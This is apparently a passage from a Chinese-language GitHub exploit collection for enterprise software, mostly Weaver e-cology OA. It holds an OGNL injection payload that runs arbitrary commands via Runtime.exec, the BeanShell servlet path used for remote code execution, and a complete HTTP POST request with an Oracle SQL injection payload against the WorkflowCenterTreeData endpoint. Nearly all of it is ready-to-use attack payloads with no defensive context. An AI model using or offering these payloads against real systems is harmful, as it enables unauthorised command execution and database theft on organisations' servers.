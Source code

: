 - POC | Payload | exp
    ```
    message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
    ```

**e-cology OA Beanshell 组件远程代码执行**
- 文章
    - [[漏洞预警]泛微e-cology OA Beanshell组件远程代码执行分析](https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg)
    - [泛微e-cology OA Beanshell组件远程代码执行漏洞复现](https://mp.weixin.qq.com/s/LpXiLukOKMfMSa8gUYBqNA)

- POC | Payload | exp
    - [jas502n/e-cology](https://github.com/jas502n/e-cology)
    ```
    /weaver/bsh.servlet.BshServlet
    ```

**泛微 OA WorkflowCenterTreeData 接口注入漏洞(限 oracle 数据库)**
- POC | Payload | exp
    ```
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
    Host: ip:port
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 2236
    Connection: close
    Upgrade-Insecure-Requests: 1

    formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
    ```
